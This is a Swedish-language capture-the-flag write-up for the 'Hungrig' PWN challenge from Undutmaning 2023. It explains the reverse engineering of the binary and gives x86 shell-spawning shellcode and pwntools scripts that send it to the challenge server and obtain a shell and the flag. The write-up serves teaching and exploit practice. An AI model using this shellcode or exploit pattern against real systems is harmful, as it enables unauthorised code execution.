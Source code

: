 # Undutmaning 2023

## PWN - Hungrig Writeup

    hungrig
    En liten binär som gärna vill 
    låta dig exekvera godtycklig kod 
    men som är lite för glupsk... 
    Hungriga monstret hittas på bageriets 
    server 46.246.39.89:31332!
        hungrig.zip
 
    $ file hungrig
    ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped

Strings ger oss inte så mycket förutom "mata mig" och lite annat relaterat till gcc compilern

När vi kör programmet promptar den oss för input:

![program](Screenshot_2023-03-19_10-12-36.png)

Med lite arbiträr input så hänger programmet sig och segfaultar även ibland

![input](Screenshot_2023-03-19_10-13-38.png)

Eftersom vi inte har någon källkod är min första instinkt att öppna binären i en disassembler, jag valde IDA

![init](Screenshot_2023-03-18_21-16-15.png)

Initiering av programmet, notera calls till sys_write, sys_mmap2 och sys_read

![main_loop](Screenshot_2023-03-18_21-16-40.png)

Huvudsaklig funktionalitet.
Returnvärdet av sys_access styr den stora loopen, om den returnerar F2h (-14d = Bad address) hoppar vi ner till loc_804910F  :

![or](Screenshot_2023-03-19_10-19-52.png)

Där OR'ar vi bx med FFF sen incrementerar. Detta är effektivt en addition av 1000h.

Det som är intressant är är att om vi lyckas komma ut ur loopen
så leder det till *jmp edi*. 

![jmp_edi](Screenshot_2023-03-19_10-20-46.png)

Vad som finns i edi när vi kommer dit
svårt att ta reda på utan att dynamiskt analysera binären.

Vi kan även notera att värdet som sys_access tar in som *pathname* förvaras
i registret ebx. Efter vi callar sys_read sparas return värdet i ebx. Sys_read() returnerar antalet bytes som lästes. Längden på vår input kommer alltså användas som *pathname* argumentet till sys_access.

![sys_read_ecx](Screenshot_2023-03-19_10-21-35.png)

Detta innebär att man alltid kommer gå in i loopen då sys_read högst läser 80h (128d) bytes Detta är inte ett giltigt *pathname*. Därefter kommer bx (de 2 lägsta bytes i ebx) incrementeras med 1000h.


Man kan då tro att loopen kommer fortsätta för evigt eftersom hur skulle ebx någonsin innehålla ett giltigt pathname? Det är där sys_mmap2 kommer in. I början av programmet mappas en region av minnet av mmap2. 
Basaddressen av detta segment sparas i ecx, som också råkar vara buffern som sys_read fyller. Loopen kommer därför till sist incrementeras tills ebx = minnesaddressen allokerad av mmap2, som är ett giltigt input till sys_access. 

Därefter körs *repe cmpsd* som jämför strängarna i edi och esi. Dessa fylls strax innan med addresserna av sys_read buffern respektive stacken.

![repe_cmpsd](Screenshot_2023-03-19_10-22-51.png)

På stacken ligger även en sträng: "MAT".

![stack_mat](Screenshot_2023-03-19_10-23-50.png)

Om dessa strängar är identiska hoppar vi till loc_8049117, dit vi vill. Början av vår input måste alltså innehålla "MAT". 

Om vi nu kör vårt program med inputen "MAT" borde vi komma ut ur loopen, men vad som händer är att efter strängarna jämförs fortsätter vi i loopen. Hmmmm, varför sker detta då? Jo, när vi skickar vår input "MAT" skickar vi även med en \n (newline) karaktär. Denna är med i jämförelsen, vilket innebär att strängen på stacken (som avlutas av en nullbyte) inte är identisk till våran.

I syftet av att debugga programmet gick jag bara in och manuellt patchade detta när jag körde det. 

Nu kan vi se vad som händer med edi när vi kommer till jmp instruktionen.
Jag sätter en breakpoint på jmp instruktionen och låter programmet köra efter jag patchat nullbyten

![jmp_breakpoint](Screenshot_2023-03-18_21-44-01.png)

Vi ser att edi = F7F76004, vilket råkar vara 4 bytes in i vår input buffer. Eftersom vi vet att programmet kommer att hoppa precis efter vår input "MAT\x00" kan vi fylla detta med någon trevlig shellcode

Följande (linux/x86) setuid(0) & execve("/bin/sh",0,0) shellcode borde fungera

    "x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

src: https://shell-storm.org/shellcode/files/shellcode-516.html

Vår payload blir då "MAT\0x00\<shellcode>"
För att skicka in detta smidigt till processen använder vi pwntools i python

    import time
    from pwn import *

    r = process('./hungrig')
    r.waitfor("mata mig:")

    time.sleep(1)

    r.send_raw(shellcode)

    r.interactive()

Vi testar detta lokalt men får ett seg fault! Hmmm, för att debugga detta gick jag in manuellt i IDA och patchade in shellcoden efter min input. Efter att vi kör fram till jmp instruktion kan vi se något märkligt hända i vår input buffer

![input_buffer_bytes](Screenshot_2023-03-18_21-54-59.png)

Byte F7F15008 har blivit ersatt av en nullbyte! Detta är såklart uppenbart om man kollar på instruktionerna vi precis gick genom för att komma till jmp instruktionen, men vem orkar kolla på dem. 

I vilket fall har vi nu ett problem. Efter vår obligatoriska input av "MAT\x00" har vi bara 3 bytes innan en nullbyte, efter vilket programmet segfaultar. Vi kan lösa detta genom att sätta in ytterliggare en instruktion som hoppar över nullbyten. 
x86 instruktionen för jmp är EB, därefter vill vi hoppa en offset på några bytes, jag valde 4. Våran nya shellcode blir därför :

             Denna jmp hoppar hit
              -------------------
              |                 |
              |                 | 
    "MAT\x00\xeb\04\00\00\00\00\<shellcode>"
                       |
                       | 
                    Denna byte ersätts alltid med en nullbyte

Om vi använder vårt python script från tidigare kan vi nu skicka vår payload till en lokal process för att testa vår POC vilket verkar fungera.

Här är hur input buffern ser ut precis när programmet hoppar till den (edi innehåller addressen FF150004):

![final_buffer](Screenshot_2023-03-19_10-35-51.png)


För att skicka till maskinen med flaggan använder vi följande:

    import time
    from pwn import *

    # start the process
    r = remote("46.246.39.89", 31332)

    r.waitfor("mata mig:")

    shellcode = b"MAT\x00\xeb\x04\x00\x00\x00\x00\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

    time.sleep(1)

    # send input to the process
    r.send_raw(shellcode)

    r.interactive()

    --------

    # ls
      Run
      flag.txt
    # cat flag.txt
      undut{ZGV0IHN0w6VyIFBFVCBww6Ugc2lkYW4gYXYgYsOldGVuLiBLYW4gZGV0IHZhcmEgc2}


Sammanfattning:
Binären tar in en input och sparar denna i en buffer. Inputsträngen jämförs med en sträng på stacken, om de är lika hoppar programflödet till en offset på 4 bytes i vår input buffer. Detta ger oss möjligheten att lägga in shellcode i vår input som sedan exekveras på maskinen. Men först ersätts en byte i vår input buffer med en nullbyte, som måste undvikas genom att lägga in en extra jmp instruktion som hoppar över denna nullbyte. 



